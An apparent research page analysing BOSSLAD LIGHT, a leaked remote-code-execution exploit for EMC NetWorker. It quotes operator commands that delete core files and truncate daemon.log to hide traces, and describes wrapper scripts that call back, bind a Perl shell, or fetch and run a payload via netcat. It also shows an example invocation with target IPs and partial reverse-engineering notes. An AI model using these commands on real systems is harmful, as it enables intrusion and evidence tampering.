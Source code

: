 ### [Home](https://CybernetiX-S3C.github.io)   [Main](https://CybernetiX-S3C.github.io/main)

[STOIC SURGEON](https://CybernetiX-S3C.github.io/main/stoicsurgeon)
[RESEARCH](https://CybernetiX-S3C.github.io/main/stoicsurgeon/research)
[CONTRIBUTING](https://CybernetiX-S3C.github.io/main/stoicsurgeon/contrib)
[ABOUT](https://CybernetiX-S3C.github.io/main/stoicsurgeon/about)

# BOSSLAD (LIGHT)

Remote Code Execution exploit for (Dell) EMC (Legato) NetWorker:

> ### when nsrexec is there but NOT with nsrstatd???

Googling `nsrexec` leads us to [the manpage](http://www.ipnom.com/Legato-NetWorker-Commands/nsrexec.html).

The mission notes also contain references to 'NSR' folders. These match with the default directories described in the [nsr_layout manpage](http://www.ipnom.com/Legato-NetWorker-Commands/nsr_layout.html):

```
### Cleanup
-ls /nsr/cores
-ls /nsr/cores/sh
-cat /nsr/cores/sh/*
rm /nsr/cores/sh/*
-rm /nsr/cores/sh
-touch SOMEFILE /nsr/cores

-ls /nsr/logs
-ls /nsr/logs/daemon.log
-get /nsr/logs/daemon.log
wc -l /nsr/logs/daemon.log
head -## /nsr/logs/daemon.log > n
-cat n
cat n > /nsr/logs/daemon.log
touch SOMEFILE /nsr/logs/daemon.log
```

Source: [user.mission.generic.COMMON.old](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/doc/old/etc/user.mission.generic.COMMON.old#L1883-L1898)

## Files

* `bl_light`: The new `boss_lad` binary (`boss_lad` is in comments and being replaced by `bl_light`, for example in `bll.tnc.gr`).
* `bll.tnc.gr`: It will run `bl_light` with a long shell command that connects back and executes the file that is given to it on the callback. (That's why you need to run the `nc -l -p localPort < file2Xfer&Run.uu` before running it)
* `bll.perlbind.gr`: It will run `bl_light` with a long Perl command that will listen on the pwned host for connections (for BURNAT seconds). You can then connect to it via `nc` and it will give you a shell (RUN_WHAT).
* `bll.perlcallback.gr`: It will run `bl_light` with a long Perl command that will callback to the given IP and port. It will - of course - give you a shell when it calls back.
* `bll.telnet.gr`: It will run `bl_light` with a telnet command that will call back from the pwned host to give you a shell. Requires `doublet` (double telnet) to be run locally to receive the callback.



## How to use

Each of the four shell scripts contains a help menu but the notes contain an explicit example as well:
```
./bll.tnc.gr -i 66.128.32.67 -l 67.233.61.230 -p 24792 -f sendmail -D /tmp/.scsi
# On local machine with redirector:
./bll.tnc.gr -i 127.0.0.1 -l PITCH_IP -p NETCAT_PORT -f RAT_NAME -D /tmp/WORK_DIR
```
Source: [user.mission.generic.COMMON.old](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/doc/old/etc/user.mission.generic.COMMON.old#L1862-L1874)

If you run it against a dummy netcat listener:
```
$ ./bl_light 127.0.0.1 "echo lol"
The official host name: 127.0.0.1
The official host address: 127.0.0.1
Building packet

***** The reponse.... ***** (length 12)
64 66 64 73 66 73 64 66 73 64 66 0a                dfdsfsdfsdf.

$ ./bl_light 127.0.0.1 "echo hello"
The official host name: 127.0.0.1
The official host address: 127.0.0.1
Building packet

***** The reponse.... ***** (length 6)
64 66 64 66 64 0a                                  dfdfd.
```

The "dfdsfsdfsdf" is what I type in netcat as answer to the exploit.

## Reverse Engineering bl_light

Since `bl_light` is ran "locally", it is not obfuscated and stripped and it can thus be reverse engineered without a lot of trouble. This is work in progress.

![Bosslad light on the wire](../assets/images/bl_light_pcap.png)

Note: there might be more happening after sending the exploit to the application but I was just listening with a dumb netcat. It's work in progress.
